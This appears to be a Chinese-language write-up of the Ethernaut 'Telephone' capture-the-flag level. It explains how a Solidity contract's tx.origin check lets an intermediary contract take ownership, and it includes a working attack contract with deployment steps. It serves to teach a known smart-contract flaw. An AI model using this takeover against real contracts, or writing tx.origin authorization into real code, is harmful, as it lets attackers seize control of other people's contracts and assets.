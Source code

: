 ```yaml
---
layout: post
title: Telephone
---
```


# Telephone
tx.origin和msg.sender的不同
```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### 代码分析
1. 当调用changeOwner(address)方法时，tx.origin与msg.sender不一致时即可获取到owner权限
2. tx.origin代表发出交易的原始方（交易的最初发起方）
3. msg.sender可以理解为发出当前call的发送方，当使用合约的call时，msg.sender会被替换为合约地址。

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/TelephoneAttack.sol)
```solidity
pragma solidity ^0.4.18;

contract TelephoneAttack {

  function attack(address _victim, address _owner) public {
    _victim.call(bytes4(keccak256("changeOwner(address)")), _owner);
  }
}
```
_victim为游戏合约instance的地址  
_owner为需要获取owner权限的地址

### 攻击方法
1. 部署攻击合约
2. 调用攻击合约方法attack(address, address)
